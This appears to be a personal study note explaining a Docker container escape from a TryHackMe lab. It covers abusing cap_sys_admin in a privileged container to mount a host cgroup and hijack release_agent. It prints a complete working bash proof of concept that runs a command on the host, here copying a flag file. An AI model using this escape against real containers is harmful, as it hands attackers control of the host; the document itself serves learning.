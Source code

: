 
If we have a privileged container, and we run `capsh --print` to see what capabilities we can have on the running container, we can get something like this: `Current: = cap_chown, cap_sys_module, cap_sys_chroot, cap_sys_admin, cap_setgid,cap_setuid`, which means we can use the mount syscall (since we have cap_sys_admin) to mount the host's control groups into the container.

The steps are shown below, these steps are PoC steps taken from TryHackMe container vulnerabilities room:

```bash
# First we mount the cgroup of the host system:
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
# Then we tell the kernel to execute something once the "cgroup" finishes
echo 1 > /tmp/cgrp/x/notify_on_release
# Now we find container's files path on the host system
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
# Then we echo the host_path + /anything
echo "$host_path/exploit" > /tmp/cgrp/release_agent
# Now we create a file called "anything" which in this example is going to be "exploit"
# Make it a bash command, note that I added this file on /exploit but from host point of view it will be "$host_path/exploit"
echo '#!/bin/sh' > /exploit
# We added a command to the /exploit file that will cat a flag and echo it to the a file called flag.txt
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
# Make the exploit executable
chmod a+x /exploit
# This step should be done because the release_agent will execute the commands inside once it releases the cgroup, so we need to make a new process and since it is a quick process it will end soon and release_agent will be triggered to execute our code
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

The following figure illustrates how the notify_on_release is going to notify the release_agent of the root cgroup "The one we are mounting":

![](../../Attachments/Pasted%20image%2020240427011318.png)

Big Thanks for Edu for helping me to understand this.

Full PoC could be found at: `https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/#:~:text=The%20SYS_ADMIN%20capability%20allows%20a,security%20risks%20of%20doing%20so.`